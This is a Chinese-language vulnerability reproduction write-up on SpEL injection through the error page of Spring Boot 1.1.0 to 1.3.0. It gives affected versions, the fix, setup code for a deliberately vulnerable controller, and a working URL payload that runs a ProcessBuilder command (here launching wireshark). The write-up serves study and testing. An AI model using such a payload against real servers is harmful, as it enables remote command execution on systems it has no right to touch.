




#### 前言

影响不算大的一个漏洞，但是对于学习SpEL注入还是很有价值的


#### 影响版本

1.1.0-1.1.12
1.2.0-1.2.7
1.3.0
修复方案：升至1.3.1或以上版本

#### 复现

复现版本：1.2.0

我采用IDEA这一IDE来搭建Spring Boot项目，通常，我们创建springboot项目可以直接用idea里提供的spring initializer功能，也可以直接去网站 https://start.spring.io/ 生成spring boot框架



但是上面两个方法搭建的环境只能是罪行的两个版本，而存在漏洞的版本比较老了，所以我采用idea构建maven工程的方式来使用老版本的spring boot，步骤如下



点击next,在下一个页面填好你自己命名的groupid等，最后点击finish，然后修改pom文件，添加如下内容

```xml
<parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>1.2.0.RELEASE</version>
    </parent>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
    </dependencies>
```

这样maven自动构建过程中就会帮助我们下载1.2.0版本的spring boot了。然后开始写主程序和控制器。

Main.java

```java
// Main.java
package com.axin;

import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;

@SpringBootApplication
public class Main {
    public static void main(String[] args){
        SpringApplication.run(Main.class, args);
    }

}
```
Sample.java

```java
// Sample.java
package com.axin;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class Sample {
    @RequestMapping("/")
    @ResponseBody
    public String hello(String payload){
        throw new IllegalStateException(payload);
    }
}

```



这个漏洞产生的比较关键的一点就是程序把用户的输入带入到报错页面。所以，可以看到Sample.java里构造了这么一个环境。

这个时候当我们发送如下payload:

`
http://localhost:8080/?payload=${new%20java.lang.ProcessBuilder(new%20java.lang.String(new%20byte[]{119,105,114,101,115,104,97,114,107})).start()}
`

就会执行wireshark




